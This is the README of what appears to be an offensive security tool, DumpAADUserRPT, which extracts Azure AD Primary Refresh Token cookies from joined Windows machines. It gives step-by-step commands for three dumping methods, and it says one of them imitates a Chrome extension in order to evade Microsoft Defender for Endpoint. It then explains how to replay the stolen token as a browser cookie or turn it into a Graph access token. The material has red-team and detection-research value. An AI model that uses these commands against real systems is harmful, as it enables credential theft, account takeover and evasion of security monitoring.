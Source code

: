 # DumpAADUserRPT
DumpAADUserRPT is C# implementation of Get-AADIntUserPRTToken from [AADInternals](https://github.com/Gerenios/AADInternals) which obtain Primary Refresh Token, cookie "x-ms-RefreshTokenCredential", from Azure AD joined or Hybrid joined computer that can be used with SSO and Azure AD.

Since October 2020, it is no longer possible to use a PRT cookie without a nonce. Thus, nonce must be request in the first place in order to request a PRT.

As suggested by [Henri](https://medium.com/falconforce/falconfriday-stealing-and-detecting-azure-prt-cookies-0xff18-96efce74ce63), Microsoft Defender for Endpoint (MDE) flagged the approach of obtaining the PRT cookie in the BrowserCore route which just starting the process, providing the nonce on stdin and receiving the PRT cookie on stdout. The detection could be overcome by simulating behaviour of Chrome extension that  create the two named pipes which Chrome also uses.

DumpAADUserRPT provides three ways to dump PRT:

- interact with BrowserCore.exe by [Dirk-jan](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/)
- simulate behaviour of Chrome extension "Windows Accounts" 
- invokes the MicrosoftAccountTokenProvider through COM by [Lee Christensen](https://bloodhoundenterprise.io/blog/2020/07/14/requesting-azure-ad-request-tokens-on-azure-ad-joined-machines-for-browser-sso/)

## Usage

```shell
cmd> .\DumpAADUserPRT.exe print_help
DumpAADUserPRT
More info: https://github.com/Hagrid29/DumpAADUserRPT
Options:
Generate nonce:
        DumpAADUserRPT.exe get_nonce
Dump PRT by sending request as stdin to BrowserCore:
        DumpAADUserRPT.exe get_token [nonce <nonce>]
Dump PRT by copying the behaviour of Chrome extension:
        DumpAADUserRPT.exe get_token ChromeExtension [nonce <nonce>] [pause <second>]
Dump PRT by interacting with COM object:
        DumpAADUserRPT.exe get_token TokenProvider [nonce <nonce>]
Print AAD info:
        DumpAADUserRPT.exe check_aad
```
Request  nonce
```shell
cmd> .\DumpAADUserPRT.exe get_nonce
```
Request PRT by interacting with BrowserCore
```shell
cmd> .\DumpAADUserPRT.exe get_token
```
Request PRT by interacting with BrowserCore and supplying with nonce
```shell
cmd> .\DumpAADUserPRT.exe get_token nonce xxxxx
```
Request PRT by simulating behaviour of Chrome extension and executing BrowserCore accordingly 
```shell
cmd> .\DumpAADUserPRT.exe get_token ChromeExtension
```
Simulate behaviour of Chrome extension that open up named pipes which last for 60 seconds only. Require manually execute BrowserCore to obtain PRT.
```shell
cmd> .\DumpAADUserPRT.exe get_token ChromeExtension pause 60
```
Request PRT by interacting with COM object
```shell
cmd> .\DumpAADUserPRT.exe get_token TokenProvider
```
Print AAD information such as device join type, tenat name, user email
```shell
cmd> .\DumpAADUserPRT.exe check_aad
```
## Use Cases of PRT
#### Use as cookie in browser
1. Open a browser and visit https://login.microsoftonline.com/
2. Insert cookie named x-ms-RefreshTokenCredential and set the value as PRT
3. Refresh the page

#### Generate AAD Graph access token
1. Import AADInternal
2. Generate AAD Graph access token by supplying PRT
```powershell
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
```

## References

* https://github.com/Gerenios/AADInternals
* https://bloodhoundenterprise.io/blog/2020/07/14/requesting-azure-ad-request-tokens-on-azure-ad-joined-machines-for-browser-sso/
* https://medium.com/falconforce/falconfriday-stealing-and-detecting-azure-prt-cookies-0xff18-96efce74ce63
* https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/





